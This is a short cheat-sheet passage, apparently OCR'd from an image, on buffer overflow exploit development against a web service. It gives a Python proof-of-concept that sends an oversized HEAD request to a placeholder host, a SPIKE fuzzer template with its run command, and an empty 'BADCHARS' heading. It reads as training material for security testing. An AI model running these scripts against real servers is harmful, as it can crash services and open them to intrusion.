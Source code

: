 
PROOF OF CONCEPT (POC)
----------------------
{: .-two-column}

### Example Connection WEB Application POC [poc-test.py]
```python
#!/usr/bin/python

import socket
import os
import sys

host = "x.x.x.x"
port = 8080
buffer = "A" * xxx

header = (
"HEAD /" + buffer + " HTTP/1.1\r\n"
"Host: x.x.x.x:8080\r\n"
"User-Agent: SEC4US 0xffff\r\n"
"Keep-Alive: 115\r\n"
"Connection: keep-alive\r\n\r\n")

expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
expl.connect((host,port))
print "Injection %s bytes" % len(buffer)
expl.send(header)
expl.close()
```

### Simple WEB Fuzzer with SPIKE [fuzzer.spk]
```bash
s_string("HEAD /");
s_string_variable("poc_value");
s_string(" ");
s_string("HTTP/1.1\r\n");
s_string("Host: x.x.x.x:8080\r\n");
s_string("User-Agent: Eder Luis - SEC4US\r\n");
s_string("Keep-Alive: 115\r\n");
s_string("Connection: Keep-Alive\r\n");
s_string("\r\n\r\n");
sleep(3);
```

running spike in the bash

```bash
generic_send_tcp x.x.x.x 8080 fuzzer.spk 0 0
```


BADCHARS
---------------------------
{: .-two-column}
